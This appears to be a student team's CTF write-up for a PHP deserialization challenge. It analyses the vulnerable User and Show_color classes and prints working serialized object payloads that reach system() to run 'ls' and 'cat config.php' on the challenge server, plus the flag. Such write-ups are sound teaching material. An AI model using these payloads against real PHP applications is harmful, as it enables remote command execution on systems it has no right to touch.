 ![](images/cover.png)

## Decription
This is our task from teacher at NT521.ANTT pratical class (Nghi Hoang Khoa) ^^. My team called by **54010N** and you can see us in [CTF Time](https://ctftime.org/team/143012)
As teacher say, our work is find out flag of challenge by exploiting the PHP serialize/deserialize vulnerability.

## The challenge
Link: *http://45.122.249.68:10001*

If you're lazy, you can see the quick code [here](chall.php)

## Analytics
By reading and following the code, we analysed the code and proposed a few judgments (*for convenient in handling, we get the code back local and handle on it*):

**Source code overview**
If `isset($_GET['code']` not null, the site will unserialize the code input which we can put it into the site to request.
The code input is a object type. We have to serialize the code to right format and request to server. **(1)**

**About *class User***
```php
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name; //???something went wrong here!!!
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
```
We realize that at the line 5, author uses`$this->$name = $name;` instead of `$this->$name = $name;`.

By *our test below*, we see that the output will add a "54010N" property into User object with the value as same as property's name.

[](images/usertest.png)

Moreover, the `$name` and `$is_admin` properties are changed to `Username` and `Useris_admin` ?? :smile: ??.  *What is special when author make that?* **(2)**

**About *class Show_color***
I put the code of User class here so that you can follow easily:
```php
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
```

You can see that this class have the `call_user_func()` which have the feature like callback function [(call the callback function)](https://www.php.net/manual/en/function.call-user-func.php). So, here is probably the key of the challege ^^. We can use it to call any the function in program :3.

In line `call_user_func($this->type->adu,$this->color);`, the first parameter will call `$this->type->adu` but *where is `adu` property?*

**About *class do_nothing***
As the class name, it's not relate to something in this challenge.

## Solution

After trying many ways, we was finally find out the way to capture the flag. Let's us begin with step by step!

Remember to the previous section, in User class, *construc()* function use `$this->$name = $name;` instead of `$this->name = $name;` and we had a question in there. At here, everything seemed to mutual matching. We can use `call_user_func()` to force User's class construct a new user object and add a `adu` property into it. And with this way, we will try to use `system("ls")` command to explore some files which is archived on server through `call_user_func()`.

First, we will generate a **adu** user and serialize it to object format.

```php
$user = new User("adu"); //create new user "adu"
$code = serialize($user); //serialize to object format
echo $code;
```
> Output: `O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:3:"adu";s:3:"adu";}`

Next, we try to call `call_user_func()` through *Show_color* class to call *"ls"* command.
```php
$user = new User("adu"); //Create new user "adu"
$showcolor = new Show_color($user, 'ls');
$code = serialize($showcolor);
echo $code;
```
> Output: `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:3:"adu";s:3:"adu";}}`

Using this output as payload:

![](images/wrong.png)

The *ls* command is not execute and the server return a error. So we need to repair the payload.
- As mention in **(1)**, `name` and `is_admin` in User's class were added the string *"User"* to head so we need to remove it before request to server.
- We have to change the `is_admin` from `false` to `true` by change the *"is_admin";b:0;"* as *"is_admin";b:1;"* so that we can become a importor as admin.
- Specialy, the server is not compile `system("ls")` command because the `adu` property have *adu* value rather than *system* value. So, the system will be compile *adu("ls")* instead of *system("ls")*. That is the reason why we must to change the value of `adu` property to *"system"*.

Now, let's request by the changed payload: `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:3:"adu";s:6:"system";}}`:

![](images/rightway.png)

Yeah, we are success when execute `system("ls")` on the server. Now our work is checking files and find out the flag because the string *"hi admin, here is your flag"* is not the flag :(((
> Payload: `O:10:"Show_color":2:{s:5:"color";s:14:"cat config.php";s:4:"type";O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:3:"adu";s:6:"system";}}`

*Ctrl + U* is shortcut key to view source and it's the way that we captured the flag :3
![](images/flag.png)

**Note:**
- *When we changed the payload, the important thing that we need to remember is changing the length of property*
- The final source code here [code.php](code.php)

## Flag
> **flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}**

